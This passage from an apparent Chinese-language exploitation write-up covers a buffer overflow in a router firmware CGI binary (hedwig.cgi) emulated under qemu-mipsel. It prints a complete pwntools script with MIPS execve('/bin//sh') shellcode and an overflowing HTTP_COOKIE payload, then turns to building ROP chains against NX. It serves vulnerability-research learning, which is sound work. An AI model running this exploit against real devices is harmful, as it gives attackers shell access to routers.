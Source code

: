对于如何找到syscall的gadget的地址，这里是因为没有开aslr通过调试可以知道

最终payload如下：

~~~
from pwn import *
#context.log_level='debug'
context.arch='mips'

shellcode = asm('''
    slti $a2, $zero, -1
    li $t7, 0x69622f2f
    sw $t7, -12($sp)
    li $t6, 0x68732f6e
    sw $t6, -8($sp)
    sw $zero, -4($sp)
    la $a0, -12($sp)
    slti $a1, $zero, -1
    li $v0, 4011
    syscall 0x40404
''')

payload=b"uid="+b'a'*(1009)+p32(0x407FFBd0)+shellcode

post_content =b"winmt=pwner"
io = process(b"""
    qemu-mipsel -L ./   \
    -0 "hedwig.cgi" \
    -E REQUEST_METHOD="POST" \
    -E CONTENT_LENGTH=11 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    -E HTTP_COOKIE=\"""" + payload + b"""\" \
    -E REQUEST_URI="2333" \
    ./htdocs/cgibin
""", shell = True)




io.send(post_content)
#pause()
io.interactive()


~~~

![image-20230813140548084](C:\Users\86178\AppData\Roaming\Typora\typora-user-images\image-20230813140548084.png)

（实际测试感觉aslr有点小问题，有时候变有时候不变）

调试的时候在process里加入-g 即可调试。

对于此固件，上述rop链就可以解决，但近来固件都开始了各种保护，包括nx，所以也学习一下如何真正的构造rop链。
